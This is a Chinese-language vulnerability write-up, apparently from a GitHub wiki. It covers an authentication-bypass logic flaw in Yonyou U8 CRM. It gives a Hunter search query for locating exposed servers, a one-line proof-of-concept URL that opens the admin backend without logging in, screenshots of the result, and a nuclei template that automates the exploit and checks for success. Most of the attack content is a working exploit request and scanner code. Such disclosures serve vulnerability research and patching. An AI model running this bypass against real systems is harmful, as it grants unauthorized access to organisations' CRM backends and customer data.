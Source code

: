 ## 用友CRM系统存在逻辑漏洞直接登录后台

## 鹰图
```
app.name="用友 CRM"
```

## poc
```
/background/reservationcomplete.php?ID=1
```

访问poc，页面返回空白
![image](https://github.com/wy876/wiki/assets/139549762/75b9ae1d-43b2-4996-a1c9-a9d8bf50d388)

直接就访问主要就登录后台了
![image](https://github.com/wy876/wiki/assets/139549762/9381b9d2-3f2f-4007-bab7-56d62d7c6e81)

![image](https://github.com/wy876/wiki/assets/139549762/6d6076b2-905d-4afe-8388-4ee532fd348a)


## nuclei
```
id: yongyouU8_CRM-reservationcomplete
info:
  name: 用友CRM系统存在逻辑漏洞直接登录后台
  author: wy876
  severity: high

http:
  - raw:
      - |
        GET /background/reservationcomplete.php?ID=1 HTTP/1.1
        Host: {{Hostname}}
        Connection: close
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko)

      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        Connection: close
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko)

        

    matchers:
      - type: dsl
        dsl:
          - 'contains(body_2,"\"msg\": \"bgsesstimeout-\", \"serverName\"")'
```

